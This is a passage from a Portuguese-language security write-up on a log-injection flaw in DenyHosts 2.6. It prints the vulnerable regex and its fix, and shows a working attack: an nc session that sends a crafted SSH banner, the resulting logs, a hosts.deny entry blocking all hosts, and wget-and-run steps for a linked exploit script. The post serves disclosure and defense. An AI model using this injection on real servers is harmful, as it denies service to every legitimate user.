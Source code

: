 Você consegue identificar a string que nós fornecemos ali na mensagem do log? E se nós utilizarmos o DenyHosts para analisar os nossos logs? O que você acha que ele vai fazer com isso (se eu repetir isso 5 vezes, na configuração padrão)?  
`<br></br>[root@crazymom DenyHosts]# tail -f /var/log/denyhosts<br></br>2007-04-25 13:20:59,068 - denyhosts : INFO new denied hosts: [’10.2.3.5?]<br></br>`

Sim, ele adicionou o IP falso enviado pelo usuário ao arquivo /etc/hosts.deny. Então, o problema é que o DenyHosts é vulnerável a log injection, permitindo aos usuários inserirem o que eles quiserem no arquivo hosts.deny.

Porque o DenyHosts (2.6) faz isso? Se analisarmos o código-fonte, veremos que a expressão regular utilizada por ele para uma mensagem de erro específica do SSH (dentro do arquivo DenyHosts/regex.py):  
`<br></br>FAILED_ENTRY_REGEX5 = re.compile(r”"”User (?P.*) .*from (?P.*) not allowed because none of user’s groups are listed in AllowGroups”"”)<br></br>`

Basicamente, ele procura por “User from …” em qualquer parte no log, nem mesmo checa se isto está no meio da mensagem “bad protocol version”. Como podemos consertar isso? Basta fazer uma expressão regular mais robusta (um “$” no final resolveria o problema)!

Você pode achar que isso não é um grande problema. Mas e se, ao invés de um endereço IP, eu passar a palavra “all”? — “all” no arquivo hosts.deny significa bloquear todo e qualquer endereço IP. Ele iria bloquear conexões de toda a Internet? Sim! Ele iria!  
`<br></br>dcid@enigma:~$ nc 192.168.5.1 22<br></br>SSH-1.99-OpenSSH_3.9p1<br></br>User root from all not allowed because none of user’s groups are listed in AllowGroups<br></br>Protocol mismatch.<br></br>`

Nos logs:  
`<br></br>Apr 25 13:19:32 crazymom sshd[4153]: Bad protocol version identification ‘ User root from all not allowed because none of user’s groups are listed in AllowGroups’ from 10.1.1.14<br></br>`  
`<br></br>root@crazymom DenyHosts]# tail -f /var/log/denyhosts<br></br>`  
`<br></br>2007-04-25 13:35:28,954 - denyhosts : INFO new denied hosts: [’all’]<br></br>`  
`<br></br>[root@crazymom DenyHosts]# cat /etc/hosts.deny<br></br>#<br></br># hosts.deny This file describes the names of the hosts which are<br></br># *not* allowed to use the local INET services, as decided<br></br># by the ‘/usr/sbin/tcpd’ server.<br></br>#<br></br>sshd: all<br></br>`

Você acabou de bloquear todo mundo nessa máquina. Eu desenvolvi um [“exploit”](http://www.ossec.net/denyhosts-exp.sh) simples para provar. Basta executá-lo e fornecer o endereço IP da máquina que será atacada:  
`<br></br>dcid@enigma:~$ wget <a href="http://www.ossec.net/denyhosts-exp.sh" rel="noopener" target="_blank" title="http://www.ossec.net/denyhosts-exp.sh">http://www.ossec.net/denyhosts-exp.sh</a><br></br>dcid@enigma:~$ chmod +x denyhosts-exp.sh<br></br>dcid@enigma:~$ ./denyhosts-exp.sh<br></br>./denyhosts-exp.sh:<br></br>dcid@enigma:~$ ./denyhosts-exp.sh 10.1.1.8<br></br>1<br></br>SSH-1.99-OpenSSH_3.9p1<br></br>Protocol mismatch.<br></br>..<br></br>SSH-1.99-OpenSSH_3.9p1<br></br>Protocol mismatch.<br></br>20<br></br>`  
`<br></br>dcid@enigma:~$ ssh 10.1.1.8<br></br>ssh_exchange_identification: Connection closed by remote host<br></br>`

Nos logs do servidor:  
`<br></br>[root@mb DenyHosts]# cat /etc/hosts.deny<br></br>#<br></br># hosts.deny This file describes the names of the hosts which are<br></br># *not* allowed to use the local INET services, as decided<br></br># by the ‘/usr/sbin/tcpd’ server.<br></br>sshd: all<br></br>`

**4 – Outros programas vulneráveis**  
Nós utilizamos o DenyHosts no nosso exemplo anterior por ser uma das ferramentas mais famosas, mas ela não é a única vulnerável.
